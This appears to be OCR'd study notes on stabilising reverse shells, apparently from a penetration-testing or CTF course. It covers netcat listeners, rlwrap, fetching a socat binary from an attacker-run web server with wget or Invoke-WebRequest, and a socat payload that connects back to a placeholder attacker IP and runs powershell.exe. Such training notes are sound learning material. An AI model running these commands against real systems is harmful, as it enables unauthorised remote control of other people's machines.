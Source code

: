     //Then back at our own terminal
    ```
    stty raw -echo; fg  //turn off our own terminal echo and then foregrounds the shell
    ```    
    (to re-enable output to the terminal type 'reset')



### Using rlwrap

Very useful for Windows, where the python thing might not work.

   1. sudo apt install rlwrap
   2. rlwrap nc -lvnp <port>


## Socat

Here literally we use the first netcat session to send the shell binary to the target machine, execute it and then connect to it.
    
A typical way to do this would be to setup a webserver on the attacker's machine:

    ```
    sudo python3 -m http.server 80
    ```

Then on the target machine, using the nc shell, download the socat binary:

    ```
    wget <attacker-ip>/socat -o /tmp/socat
    ```

    This is to do this in a windows CLI env:

    ```
    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
    ```


Very useful:  find the rows and columns on the target machine: 'stty -a', then on the 
                attacker machine resize the terminal: ' sttyw rows <number>' and 'stty cols <               number>'


### How to use Socat

Think of Socat as a way to connect two endpoints. (its a multipurpose relay)

Basic reverse shell using socat:

```
socat TCP-L:<port> -
```

On the target windows machine we would send this as the payload to connect back:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

